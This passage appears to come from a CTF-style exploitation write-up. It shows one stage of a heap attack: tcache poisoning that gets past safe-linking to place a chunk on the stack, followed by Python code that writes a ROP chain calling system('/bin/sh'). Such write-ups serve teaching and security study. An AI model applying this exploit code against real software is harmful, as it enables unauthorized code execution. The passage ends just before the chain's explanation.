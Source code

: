 This is `&ptr_table[15]`, allowing us to calculate the binary base.

### Stage 5: ROP Chain on Stack

**Goal:** Write a ROP chain to the stack return address to execute `system("/bin/sh")`.

#### Step 1: Allocate Chunks for Poisoning

```python
chunk_H = create(0x30)
chunk_I = create(0x30)
```

#### Step 2: Tcache Poisoning to Stack

```python
delete(chunk_H)
delete(chunk_I)

# Redirect to return address on stack
protected_stack = rbp_addr ^ ((heap_base + 0x1000) >> 12)
write(chunk_I, 0, p64(protected_stack))
```

#### Step 3: Allocate Chunk on Stack

```python
chunk_J = create(0x30)  # Gets chunk_I back
chunk_K = create(0x30)  # Gets chunk AT STACK!
```

Now `ptr_table[chunk_K]` points directly to the saved return address on the stack.

#### Step 4: Build and Write ROP Chain

```python
# Find gadgets and addresses
pop_rdi = libc_base + 0x119e9c  # pop rdi; ret
binsh = libc_base + 0x1d84ab     # "/bin/sh" string
system = libc_base + 0x5c110     # system() function
ret = libc_base + 0x28882        # ret (for stack alignment)

# Build ROP chain
rop_chain = b''
rop_chain += p64(0)          # Overwrite saved RBP (optional)
rop_chain += p64(pop_rdi)    # pop rdi; ret
rop_chain += p64(binsh)      # Argument: "/bin/sh"
rop_chain += p64(ret)        # Stack alignment
rop_chain += p64(system)     # Call system()

# Write ROP chain to stack
write(chunk_K, 0, rop_chain)
log.success("ROP chain written to stack!")
```

**ROP Chain Explanation:**
